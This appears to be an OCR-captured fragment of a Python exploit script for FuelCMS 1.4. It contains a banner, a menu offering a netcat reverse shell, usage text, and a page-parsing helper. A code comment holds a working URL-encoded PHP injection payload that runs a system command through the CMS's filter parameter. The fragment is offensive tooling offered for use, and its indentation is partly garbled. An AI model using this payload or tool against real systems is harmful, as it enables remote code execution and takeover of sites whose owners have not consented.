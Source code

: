 	LIGHT_PURPLE = "\033[1;35m"
	LIGHT_CYAN = "\033[1;36m"
	LIGHT_WHITE = "\033[1;37m"
	BOLD = "\033[1m"
	FAINT = "\033[2m"
	ITALIC = "\033[3m"
	UNDERLINE = "\033[4m"
	BLINK = "\033[5m"
	NEGATIVE = "\033[7m"
	CROSSED = "\033[9m"

def banner():
	banner = r"""
 ______     	_ _____ ___  ___ _____
|  ___|    	| /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--.
|  _| | | |/ _ \ | |	| |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/
Tested on 1.4                                  	 
"""
	banner += "Created by Ac1d"
	return col.LIGHT_BLUE + banner + col.RESET

def help():
	banner = col.LIGHT_WHITE + "\n\tMenu\n"
	banner += col.LIGHT_GREEN
	banner += "\nexit 	-\tExit app"
	banner += "\nshell_me -\tGet a reverse shell (netcat) "
	banner += "\nhelp 	-\tShow this help\n"+ col.RESET
	return banner

print(banner())
print(help())

#http://10.10.12.27/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27ls%20-la%27)%2B%27

if len(sys.argv) != 2:
	print("\nUsage: python3 exploit.py Vulnerable IPADDRESS")
	sys.exit(0)

IP=sys.argv[1]

def parsePage(page):
	try:       	 
    	page = page.split("<h4>A PHP Error was encountered</h4>")[0]
    	page = page.split("<div")[0]
    	page = page[6:]
    	return page
	except:
    	return False
